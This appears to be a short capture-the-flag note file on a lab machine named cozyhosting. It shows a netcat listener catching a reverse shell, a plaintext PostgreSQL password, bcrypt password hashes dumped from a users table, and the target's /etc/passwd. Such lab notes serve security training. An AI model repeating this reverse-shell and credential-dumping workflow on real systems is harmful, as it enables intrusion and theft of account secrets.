 ```yaml
---
category: Uncategorized
tags: []
---
```


listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.230] 51082

contraseña postresql Vg&nvzAQ7XxR

cozyhosting=# SELECT name,password from users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
